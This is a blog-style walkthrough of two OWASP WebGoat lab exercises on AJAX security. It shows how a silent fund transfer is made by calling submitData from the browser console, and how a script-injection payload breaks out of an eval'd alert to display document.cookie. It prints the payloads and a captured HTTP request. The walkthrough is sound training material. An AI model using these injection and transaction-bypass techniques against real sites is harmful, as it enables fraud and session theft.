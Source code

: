 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: AJAX Security"
subtitle: "Silent Transaction Attacks, Dangerous Use of Eval"
date:   2017-01-24 17:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# AJAX Security Part 8: Silent Transaction Attacks
Instructions:

- This is a sample internet banking application - money transfer page.
- It shows below your balance, the account you are transferring to and amount you will transfer.
- The application uses AJAX to submit the transaction after doing some basic client side validations.
- Your goal is to try to bypass the user's authorization and silently execute the transaction.

Aha, client side validations. Sounds like we can mess with it, or at the very least read it and look for some exploitability. Nice! Let's take a look at the source.

In the HTML, we see the following code in the confirmation form:

```
<input onclick="processData();" id="confirm" value="Confirm" name="confirm" type="BUTTON">
```

Alright so there is a third-party function ```processData()``` being called when we want to send the request. Lets take a look at that function.

```
function processData(){
	var accountNo = document.getElementById('newAccount').value;
	var amount = document.getElementById('amount').value;
	if ( accountNo == ''){
		alert('Please enter a valid account number to transfer to.')
		return;
	}
	else if ( amount == ''){
		alert('Please enter a valid amount to transfer.')
		return;
	}
	 document.getElementById('confirm').value  = 'Transferring'
	submitData(accountNo, amount);
	document.getElementById('confirm').value  = 'Confirm'
	balanceValue = parseFloat(balanceValue) - parseFloat(amount);
	balanceValue = balanceValue.toFixed(2);
	document.getElementById('balanceID').innerHTML = balanceValue + '$';
}
```

Let's break it down. ```processData``` works by pulling the information for the account the money is being transferred to, and the amount of money to be transferred from the elements filled out on the page (as long as they are filled with some data). It then does a check to make sure you cannot transfer more money than you have in the account. If the transaction passes those checks, it calls another function ```submitData``` and passes it the destination account and the amount to transfer. Then ```processData``` continues on, adjusting the sender account's balance for the amount transferred.

So there are a lot of checks in ```processData``` to prevent any transfers that the user does not want to happen. Not to mention the initial confirmation button in the HTML that fires the function off. Its main job is to interact with the sender and update data about their balance and transactions. Kind of the opposite of "silent". Let's look at ```submitData```, the method that actually performs the transactions.

```
function submitData(accountNo, balance) {
	var url = 'attack?Screen=68&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
	if (typeof XMLHttpRequest != 'undefined') {
		req = new XMLHttpRequest();
	} 
	else if (window.ActiveXObject) {
		req = new ActiveXObject('Microsoft.XMLHTTP');
	}
	req.open('GET', url, true);
	req.onreadystatechange = callback;
	req.send(null);
}
```

Hmm...not a confirmation, prompt, or check in sight! Well, let's see if we can call ```submitData``` directly from the console and bypass any user initiation or confirmation:

```
$submitData('hackeracct', 1000000)
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/silent-transaction.jpg">

Free money!!!

The real security implication here is that the ```submitData``` function actually sends a URL-formatted request to the server to perform this transaction:

```
GET /WebGoat/attack?Screen=68&menu=400&from=ajax&newAccount=hackeracct&amount=1000000&confirm=Confirm HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=68&menu=400
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
```

So a legitimate attack might look more like a phishing campaign to members of WebGoat bank that asks them to update some account information. And then...

# AJAX Security Part 9: Dangerous Use of Eval
Instructions:

- For this exercise, your mission is to come up with some input containing a script. You have to try to get this page to reflect that input back to your browser, which will execute the script. In order to pass this lesson, you must 'alert()' document.cookie.

Alright, so we're started off with a shopping cart and some credit card info

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-1.jpg">

When we go to purchase, the server responds with an alert that tells us whether the request went through or not. Enter our exploitable vector.

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-2.jpg">

Initially, without really thinking I tried a bunch of naive XSS inserts that didn't pop. Then I realized that I was trying to pop an alert inside of an alert, which didn't make much sense. So let's think about this more logically. If we enter an incorrect PIN, the document generates an alert that looks something like this:

```
alert('Whoops: You entered an incorrect access code of "' + document.form.field1 + '"')
```

Maybe we can break out of the alert and append another? Similar to the mechanism for HTTP Response Splitting. Let's give it a shot with:

```
fail"');alert(document.cookie
```

This almost worked, but we received:

```
alert('Whoops: You entered an incorrect access code of "fail");alert(document.cookie");
```

Aha, right we forgot about the closed string. Let's try to tack on another alert on the end?

```
fail"');alert(document.cookie);alert('"filler
```

Now everything is properly escaped, and we get three alerts, of which the second is:

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-3.jpg">

Success! Definitely not too subtle with three alerts, but we pop the cookie!